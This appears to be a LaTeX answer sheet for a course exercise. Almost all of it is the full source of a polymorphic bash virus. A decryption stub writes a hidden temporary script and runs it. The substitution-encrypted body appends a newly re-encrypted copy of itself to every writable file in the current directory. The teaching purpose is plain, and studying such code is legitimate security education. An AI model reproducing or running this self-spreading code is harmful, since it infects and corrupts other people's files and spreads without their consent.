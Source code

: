 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item The code is given below: there is a restoration part that decrypts the viral code into a temporary file, first adding the name of the infecting script along with the encryption/decryption substitution.
\begin{lstlisting}[language={}]
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="haigbcevrfwnyopjmqdstuxzkl"

echo "#!/bin/bash " > .temp1.sh
echo "tab0=\"$tab0\"" >> .temp1.sh
echo "tab1=\"$tab1\"" >> .temp1.sh
echo "name=\"$0\"" >> .temp1.sh
tail -28 $0 | tr  ["$tab0"] ["$tab1"]  >> .temp1.sh
chmod u+x .temp1.sh
./.temp1.sh
exit 0

#Ohgikicuugi I
jni jczg cl *; sn #onvi unvu jcfacgi
    cj [ -w $jczg -b "$0" != "./$jczg" -b "$lbqg" != "./$jczg" ]; uagl
	gfan "cljgfucnl sg $jczg"
	v=$$
	v=$(($v % 26))
	u=$ube1
	c=0
	kaczg [ $c -zg $v ]; sn
	    u=$(gfan $u  |  ui ["$ube1"] ["$ube0"])
	    c=$(($c+1))
	snlg
        #Ol gfibtg bhgf zg fnsg sg igtubvibucnl
	#gfan "#!/ecl/ebta " > $jczg
	gfan "ube0=\"$ube0\"" >> $jczg
	gfan "ube1=\"$u\"" >> $jczg
	gfan 'gfan "#!/ecl/ebta " > .ugqo1.ta' >> $jczg
	gfan 'gfan "ube0=\"$ube0\"" >> .ugqo1.ta' >> $jczg
	gfan 'gfan "ube1=\"$ube1\"" >> .ugqo1.ta' >> $jczg
	gfan 'gfan "lbqg=\"$0\"" >> .ugqo1.ta' >> $jczg
	gfan 'ubcz -l 28 $0 | ui  ["$ube0"] ["$ube1"] >> .ugqo1.ta' >> $jczg
	gfan 'faqns v+w .ugqo1.ta' >> $jczg
	gfan './.ugqo1.ta' >> $jczg
	gfan 'gwcu 0' >> $jczg
        gfan "$u"
	ubcz -l 28  $0 | ui  ["$u"] ["$ube0"] >> $jczg
    jc
snlg
\end{lstlisting}


\end{enumerate}
\end{correction}
\end{document}
